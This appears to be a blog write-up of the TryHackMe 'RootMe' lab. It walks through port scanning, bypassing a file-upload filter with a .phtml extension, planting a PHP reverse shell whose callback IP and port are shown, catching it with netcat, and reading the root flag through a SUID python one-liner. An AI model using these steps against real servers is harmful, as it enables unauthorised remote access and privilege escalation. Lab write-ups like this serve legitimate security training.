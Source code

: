 ```yaml
---
tagline: rootme
title: THM | RootMe 
description: Another THM Privilege Escalation Machine 🔓
banner: /blog/rootmebanner.jpeg/
banner_alt: Root Me Banner (if u find this, send 4533454352234 to me in general to get a pinned message)
date: '2024-02-28'
---
```


## Nmap Scan

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.102.215
[sudo] password for vipin: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-27 23:18 EST
Nmap scan report for 10.10.102.215
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.29 seconds
```

- We know that ports 22 & 80 are open, 22 is running ssh, and 80 is running http with *Apache 2.4.29*.

## Dirsearch

- While the room advises us to utilize *Gobuster*, I will instead use *Dirsearch*.

![Image showing the results of dirsearch](/blog/rootmepics/dirsearch.png 'Fig.1')

- The only hidden directory here is */panel/*

## Obtaining the User Flag

- When accessing */panel/*, we are greeted with a upload panel

![Image showing the upload panel](/blog/rootmepics/uploadpanel.png 'Fig.2')

- We might need to find or create a PHP script to upload. Looking at the hint proves us correct!

- I will be using [this PHP reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) for my attack. Make sure to change lines 49 & 50 with your Desired port & IP also change 54 with your desired shell.

``` bash:Terminal
49 $ip = '10.2.121.184';  // CHANGE THIS
50 $port = 4444;       // CHANGE THIS
···
54 $shell = 'uname -a; w; id; /bin/bash -i';
```

- My first method of bypassing the php filter did not work (it was *filename.png.php*) and I was greeted with this.

![Image showing the upload panel angry at me](/blog/rootmepics/phpuploaddenied.png 'Fig.3')

- My next attempt was a .phtml and it uploaded! Make sure to go to */uploads* and click on the PHP script to run. AND I HAVE ACCESS!!!!

```bash:Terminal
# Note: Before I modified the script to use bash, I used sh
┌──(vipin㉿vipin)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.121.184] from (UNKNOWN) [10.10.102.215] 48754
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:09:16 up  1:05,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
cat /var/www/user.txt
THM{XXXXXXXXXXXX}
```

- Time to nap nap😴, let me finish this tmrw!

## Getting The Root Flag

- I started by running the command in the hint, with that there were only a select few that were unusual with */usr/bin/python* being one.

- Using [gtfobins file read exploit](https://gtfobins.github.io/gtfobins/python/#file-read) for python we get this.

```bash:Terminal
www-data@rootme:/$ python -c 'print(open("/root/root.txt").read())' 
python -c 'print(open("/root/root.txt").read())'
THM{XXXXXXXXXXXXXXXXXXX}
```

## Closure

Hope you enjoyed this writeup, I enjoyed it very much and found the [Python File read exploit]((https://gtfobins.github.io/gtfobins/python/#file-read)) fun. Feel free to check out more @ other writeups [here](https://www.vipinb.xyz/blog)! 

